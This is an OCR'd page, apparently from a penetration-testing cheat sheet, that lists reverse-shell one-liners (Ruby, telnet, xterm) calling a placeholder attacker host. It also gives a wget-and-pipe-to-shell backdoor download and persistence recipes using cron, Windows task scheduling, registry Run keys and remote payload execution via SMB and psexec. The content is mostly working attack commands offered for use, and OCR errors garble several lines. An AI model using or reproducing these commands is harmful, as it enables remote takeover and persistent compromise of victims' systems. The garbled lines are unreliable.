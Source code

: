 
RUBY WITHOUT /BIN/SH
by -rsocket -e 'exit if
fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r "){|io|c.print io.read}end'


RUBY FOR WINDOWS

ruby -rsocket -e
'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){1 iolc.print io.read}end'


TELNET

rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
 --OR--
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445


XTERM

xterm -display 10.0.0.1:1
* Start Listener: Xnest :1
* Add permission to connect: xhost +victimIP


Misc

wget hhtp:// server /backdoor.sh -0- | sh Downloads and runs backdoor.sh


PERSISTENCE


FOR LINUX PERSISTENCE (ON ATTACK BOX)

crontab -e : set for every 10 min
0-59/10	' ' ' '	nc ip 777 -e /bin/bash


WINDOWS TASK SCHEDULER PERSISTENCE (START TASK SCHEDULER)

sc config schedule start= auto
net start schedule
at 13:30 ""C:\nc.exe ip 777 -e cmd.exe""


WINDOWS PERSISTENT BACKDOOR WITH FIREWALL BYPASS

1. REG add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
/v firewall /t REG_SZ /d "c:\windows\system32\backdoor.exe" /f
2. at 19:00 /every:M,T,W,Th,F cmd /c start "%USERPROFILE%\backdoor.exe"
3. SCHTASKS /Create /RU "SYSTEM" /SC MINUTE /MO 45 /TN FIREWALL /TR "%USERPROFILE%\backdoor.exe" /ED 12/12/2012


REMOTE PAYLOAD DEPLOYMENT VIA SMB OR WEBDAV [6]

Via SMB:
1. From the compromised machine, share the payload folder
2. Set sharing to 'Everyone'
3. Use psexec or wmic command to remotely execute payload
